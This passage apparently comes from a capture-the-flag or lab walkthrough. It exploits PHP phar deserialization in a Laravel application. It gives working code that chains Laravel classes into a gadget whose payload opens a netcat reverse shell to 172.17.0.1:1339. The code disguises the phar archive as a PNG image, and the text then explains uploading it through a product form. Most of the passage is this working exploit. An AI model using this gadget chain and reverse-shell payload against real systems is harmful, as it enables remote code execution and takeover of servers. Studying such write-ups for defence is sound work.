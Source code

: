 ```php
        protected $config;
        protected $code;

        function __construct($evilCode)
        {
            $this->code = $evilCode;
            $this->config = new MockConfiguration();
        }
    }

    class MockConfiguration {
        protected $name = 'abcdefg';
    }
}


namespace{
    $code = '<?php system("nc -e /bin/bash 172.17.0.1 1339") ?>';
    $expected = new \Illuminate\Broadcasting\PendingBroadcast($code);
    $image = new \Illuminate\Support\MessageBag($expected);

    $png = file_get_contents('foo.png');

    $phar = new Phar('poc.phar', 0);
    $phar->addFromString('test.txt', 'test');
    $phar->setMetadata($image);
    $phar->setStub("${png} __HALT_COMPILER(); ?>");

    rename('poc.phar', 'payload.png');
}
```

We now head over to the products tab and click add new product, we then add our own product and upload our malicious phar package disguised as an image.

<p align="center">
    <img src="assets/add-product.png">
</p>
